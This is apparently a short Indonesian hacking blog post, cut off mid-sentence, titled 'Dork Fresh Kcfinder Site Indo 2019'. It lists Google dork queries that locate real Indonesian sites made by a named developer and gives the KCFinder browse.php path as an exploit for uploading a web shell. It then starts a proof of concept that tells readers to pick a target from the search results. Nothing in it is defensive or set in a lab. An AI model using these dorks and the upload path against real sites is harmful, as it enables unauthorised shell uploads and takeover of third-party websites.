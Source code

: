 ```yaml
---
title: 'Dork Fresh Kcfinder Site Indo 2019'
date: 2019-09-30T03:42:00+01:00
draft: false
---
```


  
KCFinder upload Shell New dork Indonesian Site  
Author : 1ND0TR0J4N X  
Dork : intext:Develop by. PT. Asta Brata Teknologi  
intitle:Daftar Semua Agenda inurl:semua-agenda.h­tml  
  
intitle:Semua Daftar /­Koleksi inurl:semua-playlist.h­tml  
Exploit : v3/kcfinder/browse.php?type=image  
Prof Of Concept  
  
Dorking Google Dengan Dork Di Atas Atau Bisa Juga Anda Kalian Kembangin  
Pilih Salah Satu Target Dan